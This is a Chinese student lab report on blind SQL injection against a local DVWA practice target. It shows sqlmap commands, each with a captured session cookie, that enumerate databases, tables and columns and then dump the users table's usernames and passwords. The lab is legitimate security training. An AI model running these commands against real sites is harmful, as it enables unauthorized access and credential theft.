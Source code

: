 ```yaml
---
title: "网络安全实训6——SQL注入"
tags:
  - 网络安全实训
  - SQL注入
categories:
  - 网络安全
  - 实训
  - 实验报告
date: 2024-07-13 08:06:00
cover: https://img-blog.csdnimg.cn/6a525f6f18c64ca788535b07bd3b86ec.png#pic_center
---
```


# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

![image-20240713082058344](../img/zuolao/6/image-20240713082058344.png)

![image-20240713082140158](../img/zuolao/6/image-20240713082140158.png)

查看源码发现是外部引用，尝试恢复

恢复成功

![image-20240713082204564](../img/zuolao/6/image-20240713082204564.png)

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

![image-20240713082833701](../img/zuolao/6/image-20240713082833701.png)

安全等级调 low

![image-20240713082944615](../img/zuolao/6/image-20240713082944615.png)

进入 SQL Injection（Blind）页面

![image-20240713083014817](../img/zuolao/6/image-20240713083014817.png)

### 随意输入一个数字，然后点击提交

![image-20240713083040908](../img/zuolao/6/image-20240713083040908.png)

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

![image-20240713083253628](../img/zuolao/6/image-20240713083253628.png)

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

![image-20240713083823046](../img/zuolao/6/image-20240713083823046.png)

![image-20240713084248322](../img/zuolao/6/image-20240713084248322.png)

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

![image-20240713084138720](../img/zuolao/6/image-20240713084138720.png)

找到注入点

![image-20240713085141292](../img/zuolao/6/image-20240713085141292.png)

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

![image-20240713085259586](../img/zuolao/6/image-20240713085259586.png)

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

![image-20240713085348741](../img/zuolao/6/image-20240713085348741.png)

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

![image-20240713085431822](../img/zuolao/6/image-20240713085431822.png)

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

![image-20240713085615328](../img/zuolao/6/image-20240713085615328.png)

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

![image-20240713085739164](../img/zuolao/6/image-20240713085739164.png)

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

![image-20240713090351933](../img/zuolao/6/image-20240713090351933.png)

重试了一下正常了

![image-20240713090344216](../img/zuolao/6/image-20240713090344216.png)
